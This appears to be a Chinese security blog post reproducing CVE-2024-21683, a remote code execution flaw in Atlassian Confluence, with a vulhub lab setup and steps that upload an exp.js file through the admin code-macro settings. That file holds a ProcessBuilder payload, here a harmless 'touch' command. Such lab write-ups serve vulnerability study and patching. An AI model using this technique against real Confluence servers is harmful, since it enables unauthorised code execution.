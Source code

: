 #  CVE-2024-21683：Confluence远程代码执行漏洞   
原创 良夜  Timeline Sec   2024-07-09 18:30  
  
>   
> 关注我们❤️，添加星标🌟，一起学安全！作者：良夜@Timeline Sec 本文字数：3899阅读时长：3～5min 声明：仅供学习参考使用，请勿用作违法用途，否则后果自负  
  
## 0x01 简介  
  
Atlassian Confluence是一款由Atlassian开发的企业团队协作和知识管理软件，提供了一个集中化的平台，用于创建、组织和共享团队的文档、知识库、项目计划和协作内容，从而有效地管理项目知识和信息。Confluence 还集成了多种宏和插件，如日程表、任务列表和Jira集成。  
## 0x02 漏洞概述  
  
**漏洞编号：CVE-2024-21683**  
  
经过管理员身份验证的远程威胁者可构造恶意请求，利用该漏洞在受影响的实例上执行任意代码，而无需用户交互。  
## 0x03 影响版本  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsjLogZ4wQRv6uMNOOqlJ6GP2ib34qCOspQD672uh3jvW0mQ29pkIHu0qibbNIlKzwkrPS9cnCicN15vg/640?wx_fmt=png&from=appmsg "")  
## 0x04 环境搭建  
  
漏洞环境可以使用vulhub上现成的docker环境：  
  
https://github.com/vulhub/vulhub/tree/master/confluence/CVE-2023-22527  
  
可以顺便修改docker-compose.yml文件，把容器5005端口映射到本地的5005端口方便后面调试  
  
docker-compose up -d  启动环境即可  
  
访问8090端口，进行安装向导，会要求填写许可证密钥，需要向 Atlassian 申请 Confluence Server 测试证书  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsjLogZ4wQRv6uMNOOqlJ6GPR6yPiaw4RNXP8osL25msh570y6B1noQjUrHXPCz9kNIJib4IoI9RpFtQ/640?wx_fmt=png&from=appmsg "")  
  
然后配置数据库，填写数据库地址db、数据库名称confluence、用户名postgres、密码postgres。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsjLogZ4wQRv6uMNOOqlJ6GPcUzucYcxVb2JUW23w2tq6cGw0xQ9mcJfmraxflK388ko0EAVV4u5QQ/640?wx_fmt=png&from=appmsg "")  
  
等待安装完成即可  
## 0x05 漏洞复现  
  
1.登录管理员后台。在配置代码宏中，选择javaScript，添加新语言。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsjLogZ4wQRv6uMNOOqlJ6GPw6xLzCF7SAYV8fzdiaqib64QIkwAod7D3FGxAaNiaaZOaomWUwahZict0A/640?wx_fmt=png&from=appmsg "")  
  
2.在上传页面中添加exp.js。代码文件exp.js内容为下面的代码：  
```
new java.lang.ProcessBuilder["(java.lang.String[])"](["touch", "/tmp/CVE-2024-21683"]).start(); 

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsjLogZ4wQRv6uMNOOqlJ6GPlz6otVWCKdO2dC78XPfn9406guUMZ0wiagkfzqTpppFD3Hgh4SsnNkQ/640?wx_fmt=png&from=appmsg "")  
  